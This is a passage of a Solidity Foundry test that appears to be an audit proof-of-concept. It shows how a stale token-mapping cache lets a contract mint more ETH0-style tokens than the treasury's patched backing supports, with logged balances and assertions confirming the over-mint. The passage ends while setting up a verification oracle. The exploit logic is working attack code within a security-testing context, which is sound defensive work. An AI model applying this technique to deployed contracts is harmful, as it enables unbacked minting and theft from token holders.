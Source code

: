```solidity
        // Calculate expected backing with the PATCHED mapping 
        uint256 currentTokenABalanceInTreasuryForPatched = _tokenAPoc.balanceOf(treasury); 
        uint256 tokenAPriceWadPatched = _classicalOraclePoc.getPrice(address(_tokenAPoc)); 
        uint256 expectedBackingWithPatchedWad = (currentTokenABalanceInTreasuryForPatched * tokenAPriceWadPatched) / (10**_FEED_DECIMALS_POC);
        
        console.log("[Patched Scenario] Current balance of _tokenAPoc in Treasury (for correct perspective): ", currentTokenABalanceInTreasuryForPatched);
        console.log("Calculated backing with PATCHED mapping (correct perspective): ", expectedBackingWithPatchedWad);

        uint256 mintAmountWad = 1050 * 1e18; 
        console.log("Attempting to mint amount: ", mintAmountWad);
        assertTrue(mintAmountWad <= expectedBackingWithVulnerableWad, "Mint amount should be <= vulnerable backing for exploit to be logical");
        assertTrue(mintAmountWad > expectedBackingWithPatchedWad, "Mint amount should be > patched backing for exploit to be significant");
        
        uint256 minterEth0BalanceBefore = _eth0Poc.balanceOf(_minterPoc);
        console.log("Minter PoCEth0 balance BEFORE exploit mint: ", minterEth0BalanceBefore);
        console.log("_eth0Poc total supply BEFORE exploit mint: ", _eth0Poc.totalSupply());
        console.log("Treasury _tokenAPoc balance BEFORE exploit mint: ", _tokenAPoc.balanceOf(treasury));
        console.log("Treasury _tokenToRemovePoc balance BEFORE exploit mint: ", _tokenToRemovePoc.balanceOf(treasury));
        
        // Exploit: Minting should use stale data from _vulnerableTokenMappingInstance
        _eth0Poc.mint(_minterPoc, mintAmountWad); 
        console.log("SUCCESS: Mint on _eth0Poc (stale cache) processed.");
        
        uint256 minterEth0BalanceAfter = _eth0Poc.balanceOf(_minterPoc);
        console.log("Minter PoCEth0 balance AFTER exploit mint: ", minterEth0BalanceAfter);
        console.log("_eth0Poc total supply AFTER exploit mint: ", _eth0Poc.totalSupply());
        console.log("Treasury _tokenAPoc balance AFTER exploit mint: ", _tokenAPoc.balanceOf(treasury));
        console.log("Treasury _tokenToRemovePoc balance AFTER exploit mint: ", _tokenToRemovePoc.balanceOf(treasury));

        assertEq(_eth0Poc.totalSupply(), mintAmountWad, "Mint amount should match total supply on PoCEth0 after exploit");
        assertEq(minterEth0BalanceAfter - minterEth0BalanceBefore, mintAmountWad, "Minter should receive the minted PoCEth0");
        assertTrue(mintAmountWad > expectedBackingWithPatchedWad, "Exploit: Minted amount on PoCEth0 is greater than legitimate backing defined by patched mapping");
        
        vm.stopPrank(); 

        vm.startPrank(admin);
        
        console.log("--- Scenario: Verifying with newEth0ForVerification (uses CORRECT _patchedTokenMappingInstance) ---");
        // Create a new oracle instance (via proxy) that only knows about TokenA for verification with the new Eth0
        ClassicalOracle newOracleForVerificationImpl = new ClassicalOracle();
        bytes memory newOracleForVerificationInitData = abi.encodeWithSelector(ClassicalOracle.initialize.selector, address(registryContract));
        ERC1967Proxy newOracleForVerificationProxy = new ERC1967Proxy(address(newOracleForVerificationImpl), newOracleForVerificationInitData);
        ClassicalOracle newOracleForVerification = ClassicalOracle(address(newOracleForVerificationProxy));
        vm.label(address(newOracleForVerification), "NewOracleForVerification (Proxy)");

```